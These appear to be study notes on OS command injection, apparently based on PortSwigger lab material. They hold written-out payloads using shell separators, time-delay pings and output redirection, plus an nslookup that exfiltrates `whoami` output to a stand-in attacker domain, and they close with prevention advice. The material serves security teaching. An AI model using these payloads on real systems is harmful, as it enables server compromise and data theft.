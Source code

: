 ## Definition
also known as shell injection. 
It allows an attacker to:
- execute operating system (OS) commands on the server that is running an app
- typically fully compromise the application and its data

## Injecting OS commands
In this example, a shopping app lets the user view whether an item is in stock in a particular store. 
This information is accessed via a URL:
`https://insecure-website.com/stockStatus?productID=381&storeID=29`

To provide the stock information:
the app must query various legacy systems. 
For historical reasons:
- the functionality is implemented by calling out to a shell command 
- with the product and store IDs as arguments:
`stockreport.pl 381 29`
This command outputs the stock status for the specified item, which is returned to the user.

The app implements no defenses against OS command injection
=>
an attacker can submit the following input to execute an arbitrary command:
`& echo aiwefwlguh &`
If this input is submitted in the `productID` parameter
=>
the command executed by the application is:
`stockreport.pl & echo aiwefwlguh & 29`

The `echo` command:
causes the supplied string to be echoed in the output. 

This is a useful way to test for some types of OS command injection. 
The `&` character is a shell command separator. 
In this example:
it causes -->  3 separate commands to execute, one after another. 
The output returned to the user is:
`Error - productID was not provided aiwefwlguh 29: command not found`

The 3 lines of output demonstrate that:
- The original `stockreport.pl` command was executed without its expected arguments, and so returned an error message.
- The injected `echo` command was executed, and the supplied string was echoed in the output.
- The original argument `29` was executed as a command, which caused an error.

Placing the additional command separator `&` after the injected command:
is useful bc -->  it separates the injected command from whatever follows the injection point. 
=>
This reduces the chance that what follows will prevent the injected command from executing

### Simple case
- se Burp Suite to intercept and modify a request that checks the stock level.
- Modify the `storeID` parameter, giving it the value `1|whoami`.
- Observe that the response contains the name of the current user

## Useful commands
| Purpose of command    | Linux         | Windows         |
| --------------------- | ------------- | --------------- |
| Name of current user  | `whoami`      | `whoami`        |
| Operating system      | `uname -a`    | `ver`           |
| Network configuration | `ifconfig`    | `ipconfig /all` |
| Network connections   | `netstat -an` | `netstat -an`   |
| Running processes     | `ps -ef`      | `tasklist`      |
## Ways of injecting OS commands
You can use a number of shell metacharacters to perform OS command injection attacks.

A number of characters function as command separators, allowing commands to be chained together. 
The following command separators work on both Windows and Unix-based systems:
- `&`
- `&&`
- `|`
- `||`

The following command separators work only on Unix-based systems:
- `;`
- Newline (`0x0a` or `\n`)

On Unix-based systems, you can also use backticks or the dollar character to perform inline execution of an injected command within the original command:
- `` ` `` injected command `` ` ``
- `$(` injected command `)`

## Blind OS command injection vulnerabilities
Many instances of OS command injection are blind vulnerabilities. 
=>
the app -->  does not return the output from the command within its HTTP response

### Detecting blind OS command injection using time delays
- You can use an injected command to trigger a time delay
- enabling you to confirm that the command was executed based on the time that the app takes to respond

The `ping` command is a good way to do this:
because lets you specify the number of ICMP packets to send. 

This enables you to control the time taken for the command to run:
`& ping -c 10 127.0.0.1 &`

#### Blind OS command injection with time delays
1. Use Burp Suite to intercept and modify the request that submits feedback.
2. Modify the `email` parameter, changing it to:
   `email=x||ping+-c+10+127.0.0.1||`
3. Observe that the response takes 10 seconds to return

### Exploiting blind OS command injection by redirecting output
You can redirect the output from the injected command into a file within the web root that you can then retrieve using the browser. 
For example:
if the app serves static resources from the filesystem location `/var/www/static`
=>
you can submit the following input:
`& whoami > /var/www/static/whoami.txt &`

The `>` character -->  sends the output from the `whoami` command to the specified file. 
You can then use the browser to:
- fetch `https://vulnerable-website.com/whoami.txt` to retrieve the file
- and view the output from the injected command

#### Blind OS command injection with output redirection
This lab contains a blind [OS command injection](https://portswigger.net/web-security/os-command-injection) vulnerability in the feedback function.

The application executes a shell command containing the user-supplied details. The output from the command is not returned in the response. However, you can use output redirection to capture the output from the command. There is a writable folder at:
`/var/www/images/`

=>
- Use Burp Suite to intercept and modify the request that submits feedback.
- Modify the `email` parameter, changing it to:
  `email=||whoami>/var/www/images/output.txt||`
- Open an image of the webserver.
- Change in the URL the`filename` parameter to `filename=output.txt`
- Observe that the response contains the output from the injected command

#### Exploiting blind OS command injection using out-of-band (OAST) techniques
You can use an injected command that:
will trigger an out-of-band network interaction with a system that you control, 
using [OAST](https://portswigger.net/burp/application-security-testing/oast) techniques

For example:
`& nslookup kgji2ohoyw.web-attacker.com &`

This payload uses the `nslookup` command to -->   cause a DNS lookup for the specified domain. The attacker:
- can monitor to see if the lookup happens
- to confirm if the command was successfully injected

#### Blind OS command injection with out-of-band data exfiltration
The out-of-band channel provides an easy way to exfiltrate the output from injected commands:
``& nslookup `whoami`.kgji2ohoyw.web-attacker.com &``

This causes a DNS lookup to the attacker's domain containing the result of the `whoami` command:
`wwwuser.kgji2ohoyw.web-attacker.com`
=>
1. Use [Burp Suite Professional](https://portswigger.net/burp/pro) to intercept and modify the request that submits feedback.
2. Go to the [Collaborator](https://portswigger.net/burp/documentation/desktop/tools/collaborator) tab.
3. Click "Copy to clipboard" to copy a unique Burp Collaborator payload to your clipboard.
4. Modify the `email` parameter, changing it to something like the following, but insert your Burp Collaborator subdomain where indicated:
   ``email=||nslookup+`whoami`.BURP-COLLABORATOR-SUBDOMAIN||``
5. Go back to the Collaborator tab, and click "Poll now". You should see some DNS interactions that were initiated by the application as the result of your payload. If you don't see any interactions listed, wait a few seconds and try again, since the server-side command is executed asynchronously.
6. Observe that the output from your command appears in the subdomain of the interaction, and you can view this within the Collaborator tab. The full domain name that was looked up is shown in the Description tab for the interaction.
7. To complete the lab, enter the name of the current user

## How to prevent OS command injection attacks
The most effective way to prevent OS command injection vulnerabilities is to:
never call out to OS commands from application-layer code. 

In almost all cases:
there are different ways to implement the required functionality using safer platform APIs.

If you have to call out to OS commands with user-supplied input,
=>
you must perform strong input validation

Some examples of effective validation include:
- Validating against a whitelist of permitted values.
- Validating that the input is a number.
- Validating that the input contains only alphanumeric characters, no other syntax or whitespace.

Never attempt to:
sanitize input by escaping shell metacharacters. 
In practice, this is just too error-prone and vulnerable to being bypassed by a skilled attacker.